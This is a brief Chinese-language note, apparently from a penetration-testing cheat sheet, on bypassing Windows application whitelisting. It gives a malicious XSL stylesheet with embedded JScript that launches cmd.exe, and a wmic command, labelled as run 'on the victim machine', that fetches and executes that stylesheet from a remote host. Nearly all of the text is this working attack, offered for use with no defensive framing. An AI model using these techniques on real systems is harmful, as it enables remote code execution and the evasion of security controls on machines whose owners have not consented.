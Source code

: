 ## JScript and MSHTA

使用hta文件绕过应用白名单绕过

## XSL Transform

test.xsl
```xsl
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<output method="text"/>
<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell");
r.Run("cmd.exe");
]]>
</ms:script>
</stylesheet>
```

在victim机器上
```cmd
wmic process get brief /format:"http://192.168.49.96:8080/test.xsl"
```